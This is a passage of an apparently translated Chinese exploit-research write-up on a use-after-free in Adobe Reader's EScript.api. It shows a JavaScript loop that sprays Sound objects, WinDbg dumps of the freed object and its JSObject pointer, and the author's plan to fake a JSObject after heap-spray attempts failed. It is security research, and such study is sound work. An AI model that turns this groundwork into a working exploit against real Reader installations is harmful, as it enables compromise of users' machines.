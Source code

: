 

## 漏洞

该漏洞位于EScript.api组件中，该组件是各种JS API调用的绑定层。<br>
首先，我创建一个Sound 对象数组。

```
SOUND_SZ     = 512
SOUNDS         = Array(SOUND_SZ)
for(var i=0; i&lt;512; i++) {
    SOUNDS[i] = this.getSound(i)
    SOUNDS[i].toString()
}
```

Sound对象在内存中看起来是这样的。第2个dword是一个指向JSObject的指针，JSObject有elements、slots、shape等字段，第4个dword是表示对象类型的字符串。我不确定Adobe Reader使用的是哪个版本的Spidermonkey，起初我以为这是NativeObject，但是它的字段似乎与Spidermonkey的源代码不匹配。如果你知道这种结构是什么或有疑问，请通过[Twitter](https://twitter.com/PTDuy)与我联系。

```
0:000&gt; dd @eax
088445d8  08479bb0 0c8299e8 00000000 085d41f0
088445e8  0e262b80 0e262f38 00000000 00000000
088445f8  0e2630d0 00000000 00000000 00000000
08844608  00000000 5b8c4400 6d6f4400 00000000
08844618  00000000 00000000

0:000&gt; !heap -p -a @eax
    address 088445d8 found in
    _HEAP @ 4f60000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
        088445d0 000a 0000  [00]   088445d8    00048 - (busy)

0:000&gt; da 085d41f0
085d41f0  "Sound"
```

该0x48内存区域及其字段将被释放并重用。由于AdobeReader.exe是32位二进制文件，因此我可以堆喷射并确切知道受控制的数据在内存中的位置，然后可以用受控制的数据覆盖整个内存区域，并尝试找到一种控制PC的方法。但是我失败了，因为<br>
1.我真的不知道所有的这些字段都是什么；<br>
2.我没有内存泄漏；<br>
3.Adobe具有CFI。<br>
因此，我将注意力转向了JSObject（第2个dword），能够伪造JSObject是一个非常强大的原语。不幸的是第2个dword不在堆中，而是位于Adobe Reader启动时由VirtualAlloc分配的内存区域中。需要注意的重要一点是，这块内存内容在释放后没有清除。

```
0:000&gt; !address 0c8299e8

Mapping file section regions...
Mapping module regions...
Mapping PEB regions...
Mapping TEB and stack regions...
Mapping heap regions...
Mapping page heap regions...
Mapping other regions...
Mapping stack trace database regions...
Mapping activation context regions...

Usage:                  &lt;unknown&gt;
Base Address:           0c800000
End Address:            0c900000
Region Size:            00100000 (   1.000 MB)
State:                  00001000          MEM_COMMIT
Protect:                00000004          PAGE_READWRITE
Type:                   00020000          MEM_PRIVATE
Allocation Base:        0c800000
```